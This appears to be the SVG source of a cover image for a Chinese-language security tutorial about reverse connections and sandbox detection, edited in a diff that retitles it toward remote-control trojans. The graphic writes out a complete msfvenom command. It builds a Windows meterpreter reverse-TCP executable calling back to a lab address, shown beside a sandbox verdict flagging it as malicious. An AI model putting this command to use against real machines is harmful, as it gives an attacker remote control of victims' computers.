

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 800 450" width="800" height="450">
  <defs>
    <linearGradient id="bg6b" x1="0" y1="0" x2="1" y2="1">
      <stop offset="0%" stop-color="#0D1024" />
      <stop offset="50%" stop-color="#181330" />
      <stop offset="100%" stop-color="#2A1F42" />
    </linearGradient>
    <linearGradient id="cardb" x1="0" y1="0" x2="0" y2="1">
      <stop offset="0%" stop-color="#0B0E1B" />
      <stop offset="100%" stop-color="#070810" />
    </linearGradient>
    <linearGradient id="lineb" x1="0" y1="0" x2="1" y2="0">
      <stop offset="0%" stop-color="#6C5CE7" />
      <stop offset="100%" stop-color="#00D2A8" />
    </linearGradient>
    <filter id="blur6b" x="-50%" y="-50%" width="200%" height="200%">
      <feGaussianBlur stdDeviation="14" />
    </filter>
  </defs>
  <rect width="800" height="450" fill="url(#bg6b)" />
  <g fill="#ffffff">
    <circle cx="64" cy="38" r="1.4" opacity="0.6" />
    <circle cx="152" cy="24" r="1" opacity="0.38" />
    <circle cx="244" cy="58" r="1.2" opacity="0.5" />
    <circle cx="330" cy="30" r="1" opacity="0.35" />
    <circle cx="424" cy="18" r="1.3" opacity="0.5" />
    <circle cx="516" cy="52" r="1" opacity="0.4" />
    <circle cx="608" cy="26" r="1.3" opacity="0.5" />
    <circle cx="700" cy="58" r="1.4" opacity="0.55" />
    <circle cx="772" cy="32" r="1" opacity="0.4" />
    <circle cx="758" cy="116" r="1.1" opacity="0.32" />
    <circle cx="40" cy="170" r="1" opacity="0.3" />
    <circle cx="726" cy="388" r="1.2" opacity="0.42" />
    <circle cx="84" cy="400" r="1" opacity="0.33" />
    <circle cx="620" cy="410" r="0.9" opacity="0.3" />
  </g>
  <g filter="url(#blur6b)" opacity="0.3">
    <ellipse cx="140" cy="76" rx="126" ry="58" fill="#6C5CE7" />
    <ellipse cx="668" cy="356" rx="136" ry="54" fill="#00A88A" />
  </g>
  <rect x="88" y="70" width="624" height="128" rx="9" fill="url(#cardb)" stroke="#352B52" stroke-width="1.2" />
  <rect x="88" y="70" width="4" height="128" rx="2" fill="url(#lineb)" />
  <g font-family="Consolas, 'Courier New', monospace">
    <text x="118" y="102" font-size="12" fill="#5D6883">kali@kali:~$</text>
    <text x="122" y="128" font-size="14" fill="#C8C2E0">msfvenom -p windows/x64/</text>
    <text x="122" y="128" font-size="14" fill="#00D2A8" opacity="0"> </text>
    <text x="352" y="128" font-size="14" fill="#00D2A8">meterpreter/reverse_tcp</text>
    <text x="122" y="152" font-size="14" fill="#7FB8E8">LHOST=192.168.96.130</text>
    <text x="330" y="152" font-size="14" fill="#E8A87C">LPORT=5000</text>
    <text x="122" y="176" font-size="14" fill="#8B94AD">-f exe -o payload64.exe</text>
    <text x="430" y="176" font-size="12.5" fill="#5D6883">// 7680 bytes</text>
  </g>
  <path d="M400 210 L400 246" stroke="#3D3358" stroke-width="1.6" stroke-dasharray="5 4" />
  <path d="M394 240 L400 248 L406 240" fill="none" stroke="#00D2A8" stroke-width="1.8" />
  <text x="414" y="234" font-family="Consolas, monospace" font-size="11.5" fill="#6C5CE7">bind → ← reverse</text>
  <rect x="88" y="256" width="624" height="104" rx="9" fill="#070810" stroke="#2C2544" stroke-width="1" />
  <g font-family="Consolas, monospace">
    <text x="116" y="286" font-size="12" fill="#5D6883">sandbox verdict</text>
    <text x="116" y="316" font-size="20" fill="#F0616B" font-weight="bold">恶意</text>
    <text x="196" y="316" font-size="19" fill="#E8E6F2">11 / 28</text>
    <text x="336" y="316" font-size="14" fill="#E8A87C">木马</text>
    <text x="392" y="316" font-size="14" fill="#00D2A8">Metasploit</text>
    <text x="116" y="342" font-size="11.5" fill="#8FA6C4">TCP × 6  →  192.168.96.130:5000   （无 DNS / 无 HTTP）</text>
  </g>
  <rect x="88" y="392" width="624" height="2" fill="url(#lineb)" />
-   <text x="88" y="424" font-family="'Microsoft YaHei', 'PingFang SC', sans-serif" font-size="18.5" fill="#E8E6F2" letter-spacing="1.2">反向连接：从 msfvenom 到沙箱判定</text>
+   <text x="88" y="424" font-family="'Microsoft YaHei', 'PingFang SC', sans-serif" font-size="18.5" fill="#E8E6F2" letter-spacing="1.2">远程控制：从被控端到一句话木马</text>
</svg>
